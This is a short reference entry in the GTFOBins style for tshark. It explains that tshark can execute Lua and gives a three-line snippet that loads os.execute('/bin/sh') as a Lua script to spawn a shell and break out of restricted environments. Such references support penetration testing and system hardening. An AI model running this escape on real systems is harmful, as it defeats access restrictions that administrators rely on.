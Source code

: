 # GTFOBin: tshark

This program is able to execute `lua` code.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' >$TF
tshark -Xlua_script:$TF
```